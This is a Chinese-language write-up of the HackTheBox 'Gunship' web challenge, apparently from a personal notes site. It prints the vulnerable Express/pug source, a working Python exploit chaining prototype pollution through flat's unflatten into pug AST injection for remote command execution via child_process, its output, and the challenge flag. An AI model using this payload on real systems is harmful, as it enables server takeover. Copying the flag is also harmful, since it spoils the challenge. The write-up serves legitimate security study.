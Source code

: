 # Gunship

:::note CHALLENGE DESCRIPTION

Difficulty: VERY EASY

A city of lights, with retrofuturistic 80s peoples, and coffee, and drinks from another world... all the wooing in the world to make you feel more lonely... this ride ends here, with a tribute page of the British synthwave band called Gunship. 🎶

一座光之城，住着80年代复古未来风的人们，咖啡和来自异世界的饮品……世间所有的诱惑，却让你感到更加孤独……这段旅程在此结束，献给英国合成器浪潮乐队Gunship的致敬页面。🎶

:::

```javascript title="index.js"
const express       = require('express');
const app           = express();
const routes        = require('./routes');
const path          = require('path');

app.use(express.json());
app.set('views','./views');
app.use('/static', express.static(path.resolve('static')));

app.use(routes);

app.all('*', (req, res) => {
    return res.status(404).send('404 page not found');
});

app.listen(1337, () => console.log('Listening on port 1337'));
```

在页面底部发现一个输入框

![img](img/image_20240357-185735.png)

根据 POST 发送的路由，定位到

```javascript title="challenge\routes\index.js"
const path              = require('path');
const express           = require('express');
const pug                = require('pug');
const {unflatten}     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const {artist} = unflatten(req.body);

    if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
        return res.json({
            'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
        });
    } else {
        return res.json({
            'response': 'Please provide us with the full name of an existing member.'
        });
    }
});

module.exports = router;
```

参考以下两个文章

- [How AST Injection and Prototype Pollution Ignite Threats | by rayepeng | Medium](https://rayepeng.medium.com/how-ast-injection-and-prototype-pollution-ignite-threats-abb165164a68)
- [一文带你理解 AST Injection - 先知社区](https://xz.aliyun.com/t/12635?time__1311=mqmhDvqIx%2BOKDsD7GQ0%3DQoqWqGIxG%3D%2B5b4D&alichlgref=https%3A%2F%2Fwww.google.com%2F)

编写攻击 exp

```python
import requests
import base64

TARGET_URL = "http://94.237.56.248:50213"


command = "ls -lh"

print("Command: {}\n".format(command))

r = requests.post(
    TARGET_URL + "/api/submit",
    json={
        "artist.name": "Haigh",
        "__proto__.block": {
            "type": "Text",
            "line": "process.mainModule.require('child_process').execSync('$({command} | base64 > /app/static/out)')".format(command=command),
        },
    },
)

r = requests.get("http://94.237.56.248:50213/static/out").text

print(base64.b64decode(r).decode())
```

对网站进行交互

```bash
Command: ls -lh

total 56K
-rw-r--r--    1 nobody   nobody        56 Aug 13  2021 flagpJtu8
-rw-r--r--    1 nobody   nobody       441 Oct  9  2020 index.js
drwxr-xr-x   89 root     root        4.0K Aug 13  2021 node_modules
-rw-r--r--    1 nobody   nobody       359 Oct  9  2020 package.json
drwxr-xr-x    2 nobody   nobody      4.0K Aug 13  2021 routes
drwxr-xr-x    1 nobody   nobody      4.0K Mar 11 11:25 static
drwxr-xr-x    2 nobody   nobody      4.0K Aug 13  2021 views
-rw-r--r--    1 nobody   nobody     25.5K Oct  9  2020 yarn.lock

Command: cat flagpJtu8

HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}
```

```plaintext title="Flag"
HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}
```
